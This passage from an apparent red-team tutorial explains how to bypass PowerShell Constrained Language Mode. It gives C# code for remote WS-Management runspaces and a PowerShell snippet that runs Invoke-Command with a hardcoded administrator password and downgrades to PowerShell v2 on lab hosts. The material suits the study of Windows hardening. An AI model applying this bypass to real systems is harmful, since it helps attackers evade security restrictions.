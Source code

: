 It is also possible to create remote PowerShell runspaces, providing a WS-Management connection to the remote target:

```csharp
var uri = new Uri("http://pc-2.test.local:5985/WSMAN");
conn = new WSManConnectionInfo(uri);

/* SET Valid Credentials here */

Runspace rs = RunspaceFactory.CreateRunspace(conn);
PowerShell ps = PowerShell.Create();

ps.Runspace = rs;
ps.AddCommand("Write-Host").AddArgument("$ExecutionContext.SessionState.LanguageMode");
ps.Invoke();
```

In some cases, if **Applocker** is used to enforce CLM, this rule might not apply to Administrators, or might be configured in a way that C# runspaces will still run in Full Language mode.

#### What if this is not enough?

Unfortunately, if the remote target enforces CLM using `$Env:__PSLockDownPolicy`, it's very likely that also runspaces created this way will be subject to the same restriction. What to do in these cases?

The easiest and most common way to bypass CLM is PowerShell downgrade. As CLM was introduced with PowerShell v5, switching to previous versions (v2) is an effective way of bypassing it. To prove that, it is enough to run the following code:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("pc-2\Administrator", $pass)); 
Invoke-Command -ComputerName pcoip -Credential $cred -ScriptBlock { 
    Write-Output $PSVersionTable;
    Write-Output ""; 
    Write-Host "LanguageMode: " $ExecutionContext.SessionState.LanguageMode; 
    Write-Output ""; 
    powershell -version 2 "Write-Output `$PSVersionTable";
    powershell -version 2 "Write-Host 'LanguageMode:'`$ExecutionContext.SessionState.LanguageMode" 
}
```

Below a screenshot proving the above:
